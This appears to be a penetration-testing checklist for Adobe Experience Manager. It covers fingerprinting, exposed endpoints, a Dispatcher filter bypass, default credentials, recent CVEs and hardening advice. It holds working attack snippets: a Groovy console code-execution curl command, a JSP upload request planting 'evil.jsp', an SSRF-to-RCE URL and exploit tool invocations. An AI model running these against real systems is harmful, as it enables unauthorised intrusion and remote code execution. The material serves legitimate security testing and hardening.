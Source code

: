 # AEM (Adobe Experience Manager) Pentesting


> Adobe Experience Manager (AEM, part of the Adobe Experience Cloud) is an enterprise CMS that runs on top of Apache Sling/Felix (OSGi) and a Java Content Repository (JCR).  
> From an attacker perspective AEM instances very often expose dangerous development endpoints, weak Dispatcher rules, default credentials and a long tail of CVEs that are patched every quarter.

The checklist below focuses on **externally reachable (unauth) attack surface** that keeps showing up in real engagements (2022-2025).

---

## 1. Fingerprinting

```
$ curl -s -I https://target | egrep -i "aem|sling|cq"
X-Content-Type-Options: nosniff
X-Dispatcher: hu1            # header added by AEM Dispatcher
X-Vary: Accept-Encoding
```
```
Other quick indicators:
* `/etc.clientlibs/` static path present (returns JS/CSS).  
* `/libs/granite/core/content/login.html` login page with the “Adobe Experience Manager” banner.  
* `</script><!--/* CQ */-->` comment at the bottom of HTML.

---

## 2. High-value unauthenticated endpoints

Path | What you get | Notes
---- | ------------- | -----
`/.json`, `/.1.json` | JCR nodes via **DefaultGetServlet** | Often blocked, but *Dispatcher bypass* (see below) works.
`/bin/querybuilder.json?path=/` | QueryBuilder API | Leak of page tree, internal paths, user names.
`/system/console/status-*`, `/system/console/bundles` | OSGi/Felix console | 403 by default; if exposed & creds found ⇒ bundle-upload RCE.
`/crx/packmgr/index.jsp` | Package Manager | Allows authenticated content packages → JSP payload upload.
`/etc/groovyconsole/**` | AEM Groovy Console | If exposed → arbitrary Groovy / Java execution.
`/libs/cq/AuditlogSearchServlet.json` | Audit logs | Information disclosure.
`/libs/cq/ui/content/dumplibs.html` | ClientLibs dump | XSS vector.

### Dispatcher bypass trick
Most production sites sit behind the *Dispatcher* (reverse-proxy). Its filter rules can be bypassed by appending an allowed static extension **after a semicolon or encoded newline**:

```
GET /bin/querybuilder.json;%0aa.css?path=/home&type=rep:User HTTP/1.1
```
```A single request like above frequently discloses user profile nodes with email addresses. P-T Partners published good guidance on this weakness. 【】

---

## 3. Common misconfigurations (still alive in 2025)

1. **Anonymous POST servlet** – `POST /.json` with `:operation=import` lets you plant new JCR nodes.  Blocking `*.json` POST in the Dispatcher fixes it. 【】
2. **World-readable user profiles** – default ACL grants `jcr:read` on `/home/users/**/profile/*` to everyone.
3. **Default credentials** – `admin:admin`, `author:author`, `replication:replication`.
4. **WCMDebugFilter** enabled ⇒ reflected XSS via `?debug=layout` (CVE-2016-7882, still found on legacy 6.4 installs).
5. **Groovy Console exposed** – remote code execution by sending a Groovy script:
   ```bash
   curl -u admin:admin -d 'script=println "pwn".execute()' https://target/bin/groovyconsole/post.json
   ```

---

## 4. Recent vulnerabilities (service-pack cadence)

Quarter | CVE | Affected | Impact
------- | --- | -------- | ------
Dec 2024 | **CVE-2024-43711** | 6.5.21 and earlier | Improper input validation → **Arbitrary code execution** (requires low-priv auth). 【】
Dec 2024 | CVE-2024-43724/26 | 6.5.21 and earlier | DOM / Stored XSS in Move Page Wizard. 【】
Dec 2023 | CVE-2023-48452/68 | ≤ 6.5.18 | DOM-based XSS via crafted URL. 【】
Dec 2022 | CVE-2022-30683 | ≤ 6.5.13 | Crypto design flaw → secret decryption (needs low-priv creds). 【】

Always check the *APSB* bulletin matching the customer’s service-pack and request the latest **6.5.22** or *Cloud Service 2024.11*.

---

## 5. Exploitation snippets

### 5.1 RCE via dispatcher bypass + JSP upload
If anonymous write is possible:
```
# 1. Create a node that will become /content/evil.jsp
POST /content/evil.jsp;%0aa.css HTTP/1.1
Content-Type: application/x-www-form-urlencoded

:contentType=text/plain
jcr:data=<% out.println("pwned"); %>
:operation=import
```
```Now request `/content/evil.jsp` – the JSP runs with the AEM process user.

### 5.2 SSRF to RCE (historical < 6.3)
`/libs/mcm/salesforce/customer.html;%0aa.css?checkType=authorize&authorization_url=http://127.0.0.1:4502/system/console`  
`aem_ssrf2rce.py` from **aem-hacker** automates the full chain. 【】

---

## 6. Tooling

* **aem-hacker** – Swiss-army enumeration script, supports dispatcher bypass, SSRF detection, default-creds checks and more.  
  ```bash
  python3 aem_hacker.py -u https://target --host attacker-ip
  ```【】
* **Content Brute-force** – recursively request `/_jcr_content.(json|html)` to discover hidden components.
* **osgi-infect** – upload malicious OSGi bundle via `/system/console/bundles` if creds available.

---

## 7. Hardening checklist (for your report’s recommendations)

1. Keep instance on the **latest cumulative service pack** (as of Jul 2025: 6.5.22).  
2. Remove/rotate default accounts; enforce SSO/SAML.
3. Tighten **Dispatcher filters** – deny `;`, encoded newlines, and `*.json` or `*.querybuilder.json` for anonymous users.
4. Disable or protect consoles (`/system/console`, `/crx/*`, `/etc/groovyconsole`) with IP allow-lists.
5. Apply the *Anonymous Permission Hardening* package shipped by Adobe.


## References

* Adobe Security Bulletin APSB24-69 – “Security updates for Adobe Experience Manager (Dec 2024)”.
* 0ang3el – aem-hacker tool (GitHub).

